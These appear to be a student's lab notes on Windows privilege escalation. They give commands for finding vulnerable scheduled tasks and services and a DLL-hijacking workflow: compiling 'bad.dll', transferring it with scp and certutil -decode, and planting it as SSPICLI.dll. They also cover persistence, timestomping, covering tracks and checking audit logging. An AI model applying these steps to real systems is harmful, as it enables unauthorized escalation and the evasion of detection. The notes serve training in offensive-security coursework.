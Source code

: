 ```Powershell
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive
DEMO: Finding vulnerable Scheduled Tasks
# The following commands can be used to idenitfy vulnerable tasks using CMD and PowerShell:

schtasks /query /fo LIST /v #List all Tasks in List format
schtasks /query /fo LIST /v | Select-String -Pattern "STRING OR REGEX PATTERN" #Select-String can utilize regex to output only values that match
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive -Context 0,6 #Searches for Task To Run and outputs that line, along with the 6 lines following it in order to show the Run As User setting too.
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive |Select-String -Pattern "COM handler" -NotMatch #Excludes results that we dont want to seein order to help narrow down vulnerable directory locations

#Open and view tasks from the Task Scheduler GUI Application
#Identify the following vulnerable Task:
C:\Users\student\exercise_2\putty.exe
Run: sigcheck c:\users\student\exercise_2\putty.exe
#Determines information we can use to research for vulnerabilities
Run: icacls "c:\users\student\exercise_2"
#Check if the directory can be written to, as it is non-standard

There Query will show all the tasks that are running
Identify and document the service information associated with the path
```
```CMD
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" | findstr /i "7z.exe"

icacls putty.exe
this will show you your permissions of the program(you don't, but you can cacls the folder the program is located in)
```
1. Find out which DLLs are used by the application your tyring to run
   1. open procmon
      1. Process Name CONTAINS
      2. results CONTAINS
      3. Path CONTAINS

# test clipboard
base64 bad.dll | xclip -selection clipboard
- open a notepad in windows copy/pastsave
# Create Nano file on linux with code
cd into folder with bad.c in it
run the below command on the fill
i686-w64-mingw32-g++ -c bad.c -o bad.o
i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a
# now move over to windows box
scp student@10.50.34.63:/home/student/bad.dll .
# THis will pull the file from the linux-ops to the windows machine
Run: certutil -decode bad.txt SSPICLI.dll
- check source code for dll
  




# Vulnerable Services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" 
- every service that is autostart, that does not start in c:\windows
icacls "c:\Program Files\Windows Photo Viewer"
C:\Users\student\exercise_2>icacls "c:\Program Files\7-Zip\7z.exe"
c:\Program Files\7-Zip\7z.exe BUILTIN\Users:(F)
                              NT AUTHORITY\SYSTEM:(I)(F)
                              BUILTIN\Administrators:(I)(F)
- If you have full control/Modify you know you can modfy this execution
- ACCOUNT ACCESS
- create your own service and place it on the box
- open your services management tool
  - filter by description
  - look at ones without descriptions
## DEMO finding vulnerbale services
Survives:
1. Reboots
2. Credential changes
3. DHCP IP reassignment
Considerations include:
1. File naming
2. File location
3. Timestomping
4. Port selection
Covering Tracks
LOGS
- Artifacts
  - event LOGS
    - Applications, Security, Setup, System
  - Blending
  - Timestomping
## DEMO Audit Logging
auditpol /get /category:*
auditpol /get /category:* | findstr /i "success failure"
Im MS Event IDs
4624/4625   - Successful/failed login
4720        - Account created
4672        - Administrative user logged on
7045        - Service created
## DEMO: Event Logging
Storage: c:\windows\system32\config\
File-Type: .evtx/.evt

wevtutil el
wmic ntevent where "logfile="<LOGNAME>" list full
Get-Eventlog -List
## DEMO: Additional Logging
Determine PS version (bunch of ways)
- reg query hklm\software\microsoft\powershell\3\powershellengine\
- powershell -command "$psversiontable"
Determine if logging is set (PowerShell and WMIC)
- reg query [hklm or hkcu]\software\policies\microsoft\windows\powershell
- reg query hklm\software\microsoft\wbem\cimom \| findstr /i logging # 0 = no | 1 = errors | 2 = verbose
WMIC Log Storage
- %systemroot%\system32\wbem\Logs\